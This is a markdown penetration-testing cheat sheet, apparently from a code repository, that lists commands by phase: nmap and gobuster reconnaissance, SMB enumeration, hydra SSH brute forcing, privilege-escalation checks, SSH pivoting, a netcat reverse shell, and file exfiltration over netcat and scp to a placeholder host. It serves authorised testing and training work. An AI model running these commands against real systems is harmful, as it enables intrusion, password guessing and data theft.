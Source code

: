 # Penetration Testing Commands

This playbook contains common commands used during penetration testing engagements.

## Initial Reconnaissance

### Nmap Basic Scan
```bash
nmap -sV -sC -O $TargetIP
```

### Nmap Full Port Scan
```bash
nmap -p- -T4 $TargetIP
```

### Web Directory Enumeration
```bash
gobuster dir -u http://$TargetIP:$Port -w $Wordlist -t 50
```

## Exploitation

### SMB Enumeration
```bash
enum4linux -a $TargetIP
smbclient -L $TargetIP
smbmap -H $TargetIP
```

### Brute Force SSH
```bash
hydra -L $UserFile -P $PassFile ssh://$TargetIP
```

### RDP Connection
```bash
xfreerdp /u:admin /p:password /v:$TargetIP:$Port
```

## Post Exploitation

### Privilege Escalation Check (Linux)
```bash
./linpeas.sh
find / -perm -u=s -type f 2>/dev/null
```

### Pivoting with SSH Local Port Forwarding
```bash
ssh -L $Port:internal_host:internal_port user@$TargetIP
```

### Create Reverse Shell
```bash
nc -e /bin/bash $DCIP $Port
```

## Data Exfiltration

### Compress Files
```bash
tar -czvf data.tar.gz /path/to/files
```

### Transfer Files with Netcat
```bash
# On receiving machine
nc -lvp $Port > data.tar.gz

# On sending machine
nc $DCIP $Port < data.tar.gz
```

### Use SSH for Transfer
```bash
scp data.tar.gz user@$DCIP:/path/to/destination
```
